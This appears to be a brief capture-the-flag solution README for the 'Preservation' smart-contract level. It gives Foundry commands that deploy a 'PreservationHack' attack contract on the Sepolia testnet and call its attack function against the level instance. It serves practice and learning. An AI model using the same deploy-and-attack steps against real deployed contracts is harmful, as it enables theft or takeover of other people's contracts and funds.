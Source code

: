 # Preservation Solution

Deploy `PreservationHack`:

```
forge create PreservationHack --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey
```

Call the `attack()` function:

```
cast send `preservationHackAddress` "attack(address)" `ìnstanceAddress` --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey
```
